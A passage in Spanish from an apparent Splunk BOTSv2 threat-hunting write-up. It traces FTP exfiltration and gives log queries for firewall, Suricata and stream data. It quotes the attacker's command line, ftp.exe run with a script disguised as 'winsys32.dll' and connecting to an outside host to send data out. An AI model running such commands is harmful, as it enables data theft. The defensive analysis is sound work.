 - Esta opción desactiva el modo interactivo de **`ftp.exe`**, lo que significa que no pedirá confirmaciones para cada archivo transferido durante operaciones de múltiples archivos.

**s:winsys32.dll**:

- La opción **`s`** especifica un archivo de script que contiene comandos FTP que el programa ejecutará secuencialmente.
- En este caso, el archivo de script se llama **`winsys32.dll`**.

La extensión **`.dll`** corresponde a bibliotecas de enlace dinámico (Dynamic Link Libraries) 

`"C:\Windows\system32\ftp.exe" open hildegardsfarm.com`

**open hildegardsfarm.com**:

- El comando **`open`** seguido por **`hildegardsfarm.com`** indica al cliente FTP que se conecte al servidor FTP en **`hildegardsfarm.com`**. Este dominio parece ser usado para enviar los datos a traves del FTP.


## Análisis de series temporales de origen/destino

`index=botsv2 ftp sourcetype="pan:*" src=* dest=*  | eval uniq=src." ".dest| timechart count by uniq`

![APT7.png](https://i.postimg.cc/bvFTz3Qp/APT7.png)

Podemos observar que los primeros índices del tráfico fueron el 23 de agosto y el 25 de agosto. Verificaremos lo mismo en la actividad de Suricata y stream. Veremos que la actividad es parecida en las tres fuentes.

`index=botsv2 ftp sourcetype="suricata"  src_ip=* dest_ip=*  | eval uniq=src_ip." ".dest_ip| timechart count by uniq`

`index=botsv2 ftp sourcetype="stream:ftp" src=* dest=*  | eval uniq=src." ".dest| timechart count by uniq`


## **Profundización en el tiempo**

Basándonos en el análisis, podemos limitar el análisis al 23 de agosto y al 26 de marzo.

`index=botsv2 ftp sourcetype="stream:ftp" src=* dest=160.153.91.7`

![APT8.png](https://i.postimg.cc/k55s3kRT/APT8.png)

En el marco temporal, tendremos 2 direcciones de origen y eventos FTP.

![APT9.png](https://i.postimg.cc/FHpp69zf/APT9.png)

Seleccionando la fecha del 24 de agosto.

![APT10.png](https://i.postimg.cc/dVwnn7sP/APT10.png)

Podemos ver que ambas fuentes tienen el mismo número de eventos. Se están comunicando entre sí.

**Flow_id**: Indica que hay dos transacciones diferentes, lo que significa que pertenecen a secciones distintas.
